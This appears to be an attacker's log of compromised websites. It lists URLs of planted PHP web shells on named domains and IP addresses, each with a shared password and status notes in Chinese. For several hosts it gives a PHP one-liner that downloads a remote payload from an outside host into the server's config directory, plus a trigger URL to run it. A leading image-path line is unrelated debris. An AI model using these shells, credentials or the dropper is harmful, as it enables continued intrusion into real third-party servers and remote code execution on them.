 https://www.gx-biosensor.com/uploads/210329/210329/210329/210329//m1.php |mmk123 |  39.107.65.243 未执行
https://www.bkmjxs.cn/uploads/20211106//m1.php |mmk123 |  39.107.65.243 未执行
https://www.bkfhauv.com/static/ueditor/php/m1.php |mmk123 |  39.107.65.243 未执行
https://www.biobasebaby.com/uploads/images/20210621/m1.php |mmk123 |  39.107.65.243
http://xibao.gx-biosensor.com/template/template_init.php |mmk123 |  39.107.65.243

http://8.138.92.89/template/template_init.php |mmk123 
代码更新：0608 ✅
http://8.138.92.89/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://8.138.92.89/config/httpd.php?d=up

http://118.163.231.86/template/template_init.php |mmk123  连接不上
http://118.163.231.86/template/template_init.php |mmk123  
http://218.161.43.88/template/template_init.php |mmk123   
http://118.163.231.90/template/template_init.php |mmk123  
http://t.isfn.cc//template/template_init.php |mmk123 |  118.163.231.85
http://118.163.231.85/template/template_init.php |mmk123 
http://demo.senfengkeji.com/template/template_init.php |mmk123 |  81.70.153.248
http://218.161.43.89/template/template_init.php |mmk123 
http://118.163.231.88/template/template_init.php |mmk123 
http://118.163.231.87/template/template_init.php |mmk123 

http://122.152.219.122/template/template_init.php |mmk123 
代码更新：0608 ✅
http://122.152.219.122/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://122.152.219.122/config/httpd.php?d=up

http://47.106.151.193/template/template_init.php |mmk123 
代码更新：0608 ✅
http://47.106.151.193/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://47.106.151.193/config/httpd.php?d=up

http://112.74.55.251:32/template/template_init.php |mmk123 
代码更新：0608 ✅
http://112.74.55.251:32/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://112.74.55.251:32/config/httpd.php?d=up

http://121.40.198.218/template/template_init.php |mmk123 
代码更新：0608 ✅
http://121.40.198.218/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://121.40.198.218/config/httpd.php?d=up
